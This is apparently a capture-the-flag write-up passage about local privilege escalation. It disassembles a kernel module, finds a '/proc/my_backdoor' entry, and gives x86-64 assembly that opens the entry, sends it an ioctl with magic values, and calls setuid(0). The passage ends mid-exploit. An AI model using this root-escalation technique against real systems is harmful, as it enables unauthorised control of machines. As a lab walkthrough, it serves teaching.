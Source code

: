 ```
|           0x080000c2      48c7c7000000.  mov rdi, 0                  ; RELOC 32  @ 0x080000ee + 0x1a
|           0x080000c9      4889e5         mov rbp, rsp
(reloc.proc_create)
|           0x080000cc      e800000000     call 0x80000d1              ; RELOC 32 proc_create
|           ; CALL XREF from entry0 (0x80000cc)
|           0x080000d1      5d             pop rbp
|           0x080000d2      488905000000.  mov qword [0x080000d9], rax ; [0x80000d9:8]=0x3d8b4855c3c031 ; "1\xc0\xc3UH\x8b="; RELOC 32  @ 0x08000780 + 0xfffffffff7ffff27
|           ; DATA XREF from entry0 (0x80000d2)
|           0x080000d9      31c0           xor eax, eax
\           0x080000db      c3             ret
```

By listing the files in `/proc` we find one that catches our attention, `my_backdoor`:
```
localhost:~$ ls /proc
1              245            buddyinfo      kallsyms       partitions
10             267            bus            kcore          scsi
1032           272            cgroups        key-users      self
1040           3              cmdline        keys           slabinfo
1042           349            consoles       kmsg           softirqs
1050           4              cpuinfo        kpagecgroup    stat
11             405            crypto         kpagecount     swaps
12             446            devices        kpageflags     sys
13             459            diskstats      loadavg        sysrq-trigger
148            469            dma            locks          sysvipc
149            480            driver         meminfo        thread-self
15             481            execdomains    misc           timer_list
150            482            filesystems    modules        tty
152            5              fs             mounts         uptime
153            6              interrupts     mtrr           version
154            7              iomem          my_backdoor    vmallocinfo
156            8              ioports        net            vmstat
2              9              irq            pagetypeinfo   zoneinfo
```

Since the remote server does not have any useful tools we can build a small binary and copy it over:
```
[BITS 64]
global _start
_start:
    push	2
    pop		rax
    mov		rdi, path
    xor		rsi, rsi
    xor		rdx, rdx
    syscall

    mov		rdi, rax
    push	16
    pop		rax
    push	1992
    push	1942
    pop		rsi
    pop		rdx
    syscall

    ; setuid(0)
    push	105
    pop		rax
    xor		rdi, rdi
    syscall
```